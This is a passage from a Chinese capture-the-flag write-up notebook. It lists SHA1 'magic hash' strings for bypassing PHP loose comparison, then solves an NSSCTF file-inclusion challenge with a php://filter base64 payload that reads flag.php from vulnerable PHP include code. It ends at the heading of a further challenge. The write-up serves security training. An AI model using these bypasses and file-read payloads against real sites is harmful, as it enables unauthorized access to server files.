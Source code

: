 ```
 
sha1：
 
10932435112: 0e07766915004133176347055865026311692244
aaroZmOk: 0e66507019969427134894567494305185566735
aaK1STfY: 0e76658526655756207688271159624026011393
aaO8zKZF: 0e89257456677279068558073954252716165668
aa3OFF9m: 0e36977786278517984959260394024281014729
0e1290633704: 0e19985187802402577070739524195726831799
```
这里把数字过滤了就不能用数组绕过了

继续解题
对于a,b1,b2只要用数组过滤就可以了，c1,c2因为要求是字符，所以用md5绕过
最后得到flag
![alt text](image-111.png)

## [HNCTF 2022 Week1]Interesting_include
>url:https://www.nssctf.cn/problem/2900
>知识点：文件包含

```php
<?php
//WEB手要懂得搜索
//flag in ./flag.php

if(isset($_GET['filter'])){
    $file = $_GET['filter'];
    if(!preg_match("/flag/i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
} 
```
用伪协议读，构造payload：
```
http://node5.anna.nssctf.cn:25698/?filter=php://filter/read=convert.base64-encode/resource=flag.php
```
![alt text](image-112.png)
base64解码
![alt text](image-113.png)
得到flag

## [鹤城杯 2021]EasyP
>url:https://www.nssctf.cn/problem/463
>知识点：文件包含
